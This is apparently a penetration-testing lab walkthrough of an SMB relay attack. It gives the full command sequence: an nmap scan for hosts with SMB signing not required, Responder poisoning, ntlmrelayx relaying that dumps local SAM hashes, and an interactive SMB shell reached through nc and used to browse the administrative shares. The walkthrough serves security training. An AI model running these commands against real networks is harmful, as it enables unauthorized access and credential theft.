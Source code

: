 
First of all we need to run our nmap scan, to check for the host with **SMB** signing disabled

![](https://i.imgur.com/MlaVrME.jpg)

Now we can save  the host that have the prompt **"message signing enabled but not required"** into a **targets.txt** file

![](https://i.imgur.com/vNu7Yc1.png)

Now we can disable the **HTTP** and **SMB** protocol in the responder.conf file, located under `/etc/responder/Responder.conf`

![](https://i.imgur.com/7mRX0rr.png)

We can then startup `responder` with the syntax used previously in **LLMNR Poisoning** `sudo responder -i wlan0 -dwPv` (v for verbose)

![](https://i.imgur.com/TaJpooZ.png)

Now we can startup the `ntlmrelayx.py` tool wit these syntax `ntlmrelayx.py -tf targets.txt -smb2support` , if you don't have it, you can download it from [here](https://github.com/fortra/impacket/blob/impacket_0_9_19/examples/ntlmrelayx.py) and move it to `/usr/bin` 

> If you are still having problem with ntlmrelayx not working, you can download this [tool](https://github.com/Dewalt-arch/pimpmykali) officially made by the TCM members to fix things

![](https://i.imgur.com/Rdh5Zvu.jpg)

The next thing is for our target, to create an event (We are gonna be utilizing **THE-PUNISHER** VM) , remember the `\\ATACKER-IP`

![](https://dimitrios-tsarouchas.tech/assets/img/DNS-failure-Wrong-address.png)


**_Local SAM hashes have been dumped_**

![](https://i.imgur.com/GCHxNP1.png)



The authentication succeeded because SMB signing is enabled but not required and because “peterparker” is the Administrator on this computer. Therefore, the SAM hashes were able to be dumped. Now the attacker can copy the SAM hashes, try cracking them offline and move laterally or vertically.

***
## **Spawning Reverse Shell**


Same as we did in the previous section, we can simply get an interactive SMB shell by just adding a flag to `ntlmrelayx.py` command

```shell
$ ntlmrelayx.py -tf targets -smb2support -i
```

`-i` will give the interactive shell. After running the command, you will see an output as shown in the image below :


![](https://i.imgur.com/QSh4895.png)


It has successfully exploited and started interactive SMB client shell via TCP on the specified port.

To access the shell, you can simply use `nc` to connect to the host and port using the following command

```
nc 127.0.0.1 11000
```

This will give you the SMB shell as below

![](https://www.hackingloops.com/wp-content/uploads/2023/01/7-2.png)

From here, you can interact using the shell and access the files and folders., for example to see the content of these shares we can say

```shell
# shares
# use C$
# use ADMIN$
# use IPC$
```

Then we can do `ls`

![](https://i.imgur.com/Q2m4kx2.png)

